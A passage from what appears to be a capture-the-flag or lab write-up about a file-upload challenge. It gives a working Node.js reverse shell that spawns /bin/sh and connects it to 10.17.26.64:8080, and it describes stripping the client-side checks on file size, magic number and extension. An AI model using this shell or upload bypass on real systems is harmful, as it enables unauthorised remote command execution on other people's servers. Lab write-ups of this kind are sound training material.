 ![alt text](image-22.png#center)

<br>

Since we found the backend is running javascript, we need the javascript version of rever shell script not the PHP that we've been using so far.

```js
(function () {
  var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
  var client = new net.Socket();
  client.connect(8080, "10.17.26.64", function () {
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
  });
  return /a/; // Prevents the Node.js application form crashing
})();
```

<br>

It seems like we can bypass three checks from the client-side: file size, magic number, and file extension. I am just going to delete all of the checks.
![alt text](image-32.png#center)
